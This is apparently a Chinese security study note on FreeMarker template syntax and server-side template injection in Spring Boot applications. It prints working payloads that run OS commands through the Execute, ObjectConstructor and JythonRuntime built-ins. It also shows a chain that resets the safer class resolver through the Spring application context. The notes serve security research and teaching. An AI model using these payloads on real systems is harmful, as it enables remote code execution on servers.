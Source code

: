 `Freemarker`也是`SpringBoot`官方支持的模板引擎之一

官方文档👉`https://freemarker.apache.org/`

`Template + data-model = output`

![image-20231221210241700](./../.gitbook/assets/image-20231221210241700.png)

下面maven坐标对应的freemarker版本为2.3.32

```xml
<parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.7.17</version>
</parent>
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-freemarker</artifactId>
</dependency>
```

* 插值语法

使用插值语法（**interpolation**）来输出数据，即`${...}`

数值型插值：`#{7*7}`

* FTL标签

`FreeMarker`提供了类似HTML的标签 —— `FTL标签`，标签名字以`#`开头

```html
<#if condition>
    xxx
<#else>
    yyy
</#if>
    
<#list sequence as loopVariable>
    repeatThis
</#list>

<#include "../../../flag">
<#-- 会进行路径规范化，无法目录穿越读文件 -->

<#assign name1=value1 name2=value2 ... nameN=valueN>
<#-- 赋值语法 -->
```

* 内置函数

## ?api

`value?api.someJavaMethod()`或`value?api.someBeanProperty`

FreeMarker 2.3.22 开始支持，需要通过`Configurable.setAPIBuiltinEnabled(true)`或设置`api_builtin_enabled`（默认为false）

并不是所有值都支持`?api`，自定义的`TemplateModel`(实现了`freemarker.template.TemplateModelWithAPISupport`接口)可以支持`?api`

可以通过`value?has_api`来检测一个值是否支持`?api`

此外，`freemarker.ext.beans`下有一个配置文件`unsafeMethods.properties`，限制了一些常见敏感方法的调用

![image-20231221210259441](./../.gitbook/assets/image-20231221210259441.png)

2.3.30加入`java.security.ProtectionDomain.getClassLoader()`

## new

用于实例化一个实现了`freemarker.template.TemplateMethodModel`接口的类，调用其构造器并返回一个变量。

2.3.17开始，可以通过`Configuration.setNewBuiltinClassResolver(TemplateClassResolver.XXX)` 	  或设置 `new_builtin_class_resolver` 来限制这个内建函数对类的访问，官方提供了三个预定义的类解析器（`TemplateClassResolver`接口下有）

- **UNRESTRICTED_RESOLVER**：简单地调用`ClassUtil.forName(String)`。
- **SAFER_RESOLVER**：和第一个类似，但禁止解析`ObjectConstructor`，`Execute`和`JythonRuntime`。
- **ALLOWS_NOTHING_RESOLVER**：禁止解析任何类。

```yaml
spring:
  freemarker:
    cache: false
    settings:
      apiBuiltinEnabled: true
      new_builtin_class_resolver: safer
```

### `freemarker.template.utility.Execute`

类描述还贴心地说明了这个类的危险性

![image-20231221210314665](./../.gitbook/assets/image-20231221210314665.png)

```html
<#assign ex="freemarker.template.utility.Execute"?new()>
${ex("calc")}
```

### `freemarker.template.utility.ObjectConstructor`

![image-20231221210337055](./../.gitbook/assets/image-20231221210337055.png)

实例化任意类

```html
<#assign con="freemarker.template.utility.ObjectConstructor"?new()>
${con("java.lang.ProcessBuilder","calc").start()}
```

### `freemarker.template.utility.JythonRuntime`

能够执行python代码，默认没有jython依赖，需要引入

```xml
<dependency>
    <groupId>org.python</groupId>
    <artifactId>jython</artifactId>
    <version>2.7.2</version>
</dependency>
```

```html
<#assign value="freemarker.template.utility.JythonRuntime"?new()>
<@value>import os;os.system("calc")</@value>
```

## 关闭安全类解析器

发现`FreeMarkerView`是`AbstractTemplateView`子类，因此我们在模板中可以获取到Spring的宏变量`springMacroRequestContext`，接着获取注册到AOP容器中的`Configuration`模板配置对象，再调用`setNewBuiltinClassResolver`设置类解析器为普通的类解析器。

```html
<#assign ac=springMacroRequestContext.webApplicationContext>
<#assign fc=ac.getBean('freeMarkerConfiguration')>
<#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>
<#assign VOID=fc.setNewBuiltinClassResolver(dcr)>
${"freemarker.template.utility.Execute"?new()("calc")}
```